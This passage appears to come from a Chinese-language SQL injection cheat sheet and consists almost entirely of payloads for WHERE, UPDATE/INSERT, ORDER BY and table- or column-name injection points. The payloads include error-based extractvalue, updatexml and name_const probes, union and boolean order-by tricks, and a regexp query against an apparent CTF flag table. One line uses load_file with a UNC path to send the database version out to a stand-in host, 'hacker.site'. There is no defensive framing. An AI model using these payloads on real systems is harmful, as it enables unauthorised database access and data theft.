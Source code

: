 ### 2.2 注入语句

#### 2.2.1 where注入

```
' or extractvalue(rand(),version()) or '

' or updatexml(rand(),version(),0) or '

' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '

1' union select 1,2,3…n

1' into @t1,@t2,@t3…n
```

#### 2.2.2 update/insert注入

```
test'\|conv(hex(version()), 16, 10)\|'a'
load_file(concat('\\\\',version(),'.hacker.site\\txt'))\|'b

'+sqrt(1)+'
'+sqrt(ascii(user)-100)+'
```

#### 2.2.3 Order by注入

```
1' order by n

order by if(1=1,id,1)
order by id rlike case when 1=1 then 1 else char(40) end
order by \|((select flag from level1_flag)regexp '^字符串')%2b1

order by extractvalue(rand(),version())
order by updatexml(rand(),version(),0)
order by (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

#### 2.2.4 表名/列名注入

- 表名

```
 where extractvalue(rand(),version())
 where updatexml(rand(),version(),0)
 where (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

- 列名

```
if(1=1,user_name,1)

extractvalue(rand(),version())
updatexml(rand(),version(),0)
(SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```
